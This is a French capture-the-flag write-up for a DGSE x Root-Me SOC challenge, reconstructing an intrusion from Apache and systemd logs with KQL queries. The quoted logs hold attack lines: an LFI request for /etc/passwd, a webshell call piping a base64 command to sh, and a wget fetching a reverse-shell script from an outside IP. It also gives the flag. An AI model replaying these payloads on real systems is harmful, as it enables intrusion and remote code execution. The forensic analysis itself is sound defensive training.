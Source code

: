 # Mission 2 DGSE x Rootme (SOC)

![Brief](images/brief.png)

# Writeup

On nous met à disposition une plateforme SOC avec des logs Apache et des logs système. Pour constituer le flag, on nous demande les informations suivantes :

### 1. CWE de la première vulnérabilité (logs Apache)

**Type** : Local File Inclusion (LFI)

**Requête KQL/DQL** pour ne garder que les inclusions réussies :
```SQL
request : "*../*etc/*" AND status=200
```

**Extrait de log** :
```SQL
@timestamp:00:21:36.588 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:21:36 +0100] "GET /?lang=/etc&page=passwd%2500 HTTP/1.1" ==200==
```

L'attaquant a réussit à inclure le fichier */etc/passwd* --> `CWE-98`


### 2. CWE de la seconde vulnérabilité (logs Apache)

**Type** : File Upload arbitraire

**Requête KQL/DQL** pour détecter les commandes passées en paramètre ***cmd*** :
```SQL
verb : GET and response : 200 and request : "*?cmd=*"
```

**Extrait de log** :
```SQL
@timestamp:00:31:40.526 2025-03-28
log: 10.143.17.101 - - [28/Mar/2025:00:31:40 +0100] "GET /admin-page/upload/68af9111db3749e2e8af39e255fd874c/ev1L.php.png?cmd=echo+'cGluZyAtYyAxIGdvb2dsZS5jb20='|base64+-d|sh
```

Un fichier nommé ***ev1L.php.png*** a été uploadé, puis invoqué avec une commande système via le paramètre ***cmd*** →  `CWE-434`


### 3. Adresse IP du serveur (logs systemd)

On peut rechercher **toutes** les occurrences de téléchargement via `wget` grâce à cette requête:
```SQL
message : "wget"
```

**Extrait de log** :
```JSON
"message": [ "EXECVE argc=4 a0=\"@opensearch-dashboards-highlighted-field@wget@/opensearch-dashboards-highlighted-field@\" a1=\"http://163.172.67.201:49999/s1mpl3-r3vsh3l.sh\" a2=\"-O\" a3=\"/root/.0x00/pwn3d-by-nullv4stati0n.sh\""]
```

Le script a été téléchargé depuis l'adresse: `163.172.67.201`

### 4. Chemin du fichier de persistance

En reprenant le résultat précédent, on peut extraire le chemin: `/root/.0x00/pwn3d-by-nullv4stati0n.sh`

**Flag:**
```
RM{CWE-98:CWE-434:163.172.67.201:/root/.0x00/pwn3d-by-nullv4stati0n.sh}
```